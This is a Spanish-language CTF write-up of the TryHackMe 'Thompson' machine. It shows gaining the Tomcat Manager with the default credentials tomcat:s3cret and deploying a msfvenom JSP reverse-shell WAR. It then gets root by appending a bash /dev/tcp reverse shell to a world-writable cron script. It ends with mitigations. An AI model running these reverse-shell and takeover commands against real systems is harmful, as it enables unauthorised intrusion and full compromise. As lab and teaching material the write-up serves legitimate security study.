








# Thompson — TryHackMe

> [!info] Resumen
> Máquina Linux (Ubuntu) con **Apache Tomcat 8.5.5** expuesto en el puerto 8080 y el conector **AJP (8009)** abierto a internet. Se obtiene acceso al *Manager App* con **[[credenciales por defecto]]** (`tomcat:s3cret`) que el propio error `401` filtra, y desde ahí se logra **RCE desplegando un WAR malicioso** (reverse shell JSP generada con **[[msfvenom]]**) para una shell como `tomcat`. La escalada a root se consigue secuestrando un **cron job escribible** (`id.sh` con permisos `777`) que root ejecuta cada minuto.

**Cadena de ataque:**
```
Recon → Tomcat 8.5.5 (8080) + AJP (8009) → default creds tomcat:s3cret
→ Manager App → deploy WAR malicioso (JSP reverse shell) → shell como tomcat → user.txt
→ cron job escribible id.sh (777, root cada minuto) → reverse shell → root
→ root.txt
```

---
IP del host remoto = 10.67.187.103 (varía en cada instancia de la máquina)

## 1. Reconocimiento

### 1.1 Conexión a la VPN

Comprobamos la conectividad con la máquina víctima desde nuestra VPN:

```bash
ping 10.67.187.103
```

### 1.2 Escaneo de puertos

```bash
nmap -sV 10.67.187.103
```

**Puertos abiertos:**

| Puerto | Servicio | Versión               |
| ------ | -------- | --------------------- |
| 22     | SSH      | OpenSSH 7.2p2         |
| 8009   | AJP13    | Apache Jserv (v1.3)   |
| 8080   | HTTP     | Apache Tomcat 8.5.5   |

### 1.3 Análisis de la arquitectura

El puerto **8009 (AJP)** llama la atención. Normalmente, en una arquitectura Tomcat, el conector AJP se usa para que un servidor *frontend* (como Apache HTTP) se comunique de forma interna con el *backend* (Tomcat) y le pase las peticiones. Sin embargo, aquí el puerto AJP está **expuesto a internet**, igual que el HTTP (8080).

> [!info] Nota sobre AJP y Ghostcat
> Esta exposición directa del puerto AJP es la receta perfecta para **Ghostcat ([[CVE-2020-1938]])**, que permite leer archivos internos de la aplicación e incluso RCE si se combina con otras fallas. No obstante, antes de explotar AJP, exploramos el puerto 8080, que resultó ser el camino más directo.



---

## 2. Acceso inicial: credenciales por defecto

Al acceder a `http://10.67.187.103:8080` vemos el panel por defecto de Tomcat en su versión 8.5.5, la cual si buscamos en google, daremos con que tiene muchas vulnerabilidades dado que está en estado EOL. 


Al explorar los botones de administración (*Server Status*, *Manager App*, *Host Manager*) se nos pide autenticación. Si cancelamos el login, la página devuelve un error `401 Unauthorized` con un mensaje muy revelador: sugiere que, si no se ha modificado `conf/tomcat-users.xml`, podemos usar el usuario `tomcat` con contraseña `s3cret` y rol `manager-gui`.

Probamos estas **credenciales por defecto** (`tomcat:s3cret`) y obtenemos acceso al *Manager App*.


---

## 3. Ejecución remota de comandos (RCE) vía WAR

Dentro del *Manager App* tenemos la capacidad de desplegar (*Deploy*) archivos `.war`. Un archivo WAR (*Web Application Archive*) es, a efectos prácticos, un comprimido que contiene una aplicación web Java completa (clases, JSP, HTML, etc.). Tomcat lo descomprime y lo pone a correr.

### 3.1 Generación del WAR malicioso

Creamos un WAR con una reverse shell en formato JSP usando `msfvenom`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.130.46 LPORT=4444 -f war -o shell.war
```

> [!info] Nota
> `LHOST` es nuestra IP en la VPN de TryHackMe (`192.168.130.46`). Ajústala a la tuya con `ip a` / `ifconfig tun0`.

### 3.2 Despliegue y activación

1. En el *Manager App*, bajamos hasta la sección *WAR file to deploy*, seleccionamos nuestro `shell.war` y hacemos clic en **Deploy**.
2. El WAR aparece en la tabla de aplicaciones con el path `/shell`. Verificamos que su estado sea `Running`.
3. Ponemos un listener con Netcat:

   ```bash
   nc -lvnp 4444
   ```

4. Para activar el JSP malicioso, hacemos una petición a la nueva ruta:

   ```bash
   curl http://10.67.187.103:8080/shell/
   ```

> [!warning] Nota sobre la URL
> No se debe poner `/shell.war` en la URL: la ruta expuesta **pierde la extensión**, así que el acceso correcto es `/shell/`.





Inmediatamente recibimos la conexión inversa. Sanitizamos la terminal:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# ctrl + z
stty raw -echo; fg
# double enter
export TERM=xterm
export SHELL=bash
```

Tenemos una shell como el usuario `tomcat`.

---

## 4. Flag de usuario

Navegamos por el sistema y encontramos el directorio del usuario `jack`:

```bash
cd /home/jack
ls -la
cat user.txt
```



**Flag de usuario encontrada!**

---

## 5. Escalada de privilegios

### 5.1 Hallazgo: script con permisos 777

Durante la enumeración, un archivo llama poderosamente la atención: `id.sh`.

```text
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

Tiene permisos `777` (**escribible por cualquier usuario**). Además, vemos un archivo `test.txt` propiedad de root modificado recientemente, señal de que algo lo está tocando de forma periódica.

### 5.2 Confirmación del cron job

Revisamos las tareas programadas del sistema:

```bash
cat /etc/crontab
```

Encontramos la línea:

```text
* * * * * root cd /home/jack && bash id.sh
```

El sistema ejecuta `id.sh` **cada minuto** y lo hace como **root**. Como nosotros (`tomcat`) tenemos permisos de escritura sobre ese script, podemos secuestrar la tarea.



### 5.3 Explotación

Dejamos un listener en el puerto 5555:

```bash
nc -lvnp 5555
```

Inyectamos una reverse shell como root en el script:

```bash
echo 'bash -i >& /dev/tcp/192.168.130.46/5555 0>&1' >> id.sh
```

> [!info] Nota
> Usamos `>>` para **añadir** al final del script (o `>` para sobrescribirlo). Tras esperar un minuto, el cron de root ejecuta nuestro payload y recibimos la shell con máximos privilegios.



---

## 6. Flag de root

```bash
cd /root
ls
cat root.txt
```



**Flag de root encontrada!**

---

## 7. Conclusión y lecciones

- **Vector inicial:** [[credenciales por defecto]] de Tomcat (`tomcat:s3cret`) filtradas por el propio error `401`, seguidas de RCE mediante despliegue de un WAR malicioso en el *Manager App*.
- **Escalada:** cron job de root que ejecuta un script (`id.sh`) con permisos `777`, escribible por el usuario `tomcat`.
- **Lección:** la información de configuración a veces se filtra en los mensajes de error; y un script ejecutado por root vía cron **nunca** debe ser escribible por otros usuarios — es RCE como root directo.

**Mitigaciones:**

- **Actualizar Tomcat** a una versión parcheada (9.0.31, 8.5.51 o 7.0.100 en adelante) para mitigar [[CVE-2020-1938]] (Ghostcat).
- **Restringir el puerto AJP (8009):** cerrarlo si no se usa un *frontend*; si se usa, configurar `secretRequired="true"` y una contraseña robusta en el conector.
- **Asegurar el *Manager App*:** cambiar las credenciales por defecto y restringir `/manager/html` a IPs de confianza (`RemoteAddrValve` en `context.xml`).
- **Auditar cron jobs:** revisar `/etc/crontab` y `/etc/cron.d/`; los scripts ejecutados por tareas programadas deben tener permisos estrictos (`chmod 700`, propietario `root`).

---

## 8. Referencias

- [NVD — CVE-2020-1938 (Ghostcat)](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)
- [CVE.org](https://www.cve.org/CVERecord?id=CVE-2020-1938)
- [Apache Tomcat — Manager App How-To](https://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)
- [[CVE-2020-1938]]
- [[credenciales por defecto]]
- [[msfvenom]]
- [[Tomcat]]
- [[cron]]

---
